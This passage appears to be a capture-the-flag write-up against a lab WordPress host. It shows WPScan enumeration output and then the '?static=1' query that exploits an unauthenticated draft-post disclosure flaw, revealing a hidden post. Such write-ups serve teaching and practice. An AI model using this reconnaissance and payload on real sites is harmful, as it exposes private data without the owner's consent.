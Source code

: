 ```
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21664
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jp3p-gw8h-6x86
 |
 | [!] Title: WordPress < 5.8.3 - Super Admin Object Injection in Multisites
 |     Fixed in: 5.2.14
 |     References:
 |      - https://wpscan.com/vulnerability/008c21ab-3d7e-4d97-b6c3-db9d83f390a7
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21663
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jmmq-m8p8-332h
 |      - https://hackerone.com/reports/541469

[+] WordPress theme in use: construction-techup
 | Location: http://office.paper/wp-content/themes/construction-techup/
 | Last Updated: 2021-07-17T00:00:00.000Z
 | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==========================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.
```

Based on the comment we found, it looks like "WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts" is going to be the exploit we want to use. Navigating to [wpscan.com link](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2), we see a proof of concept, `http://wordpress.local/?static=1&order=asc`. However, this didn't work. Exploring another [linked page that goes into more detail](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/), we see that just using `http://wordpress.local/?static=1` should work. Navigating to `http://office.paper/?static=1` we see the below post:

```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

```
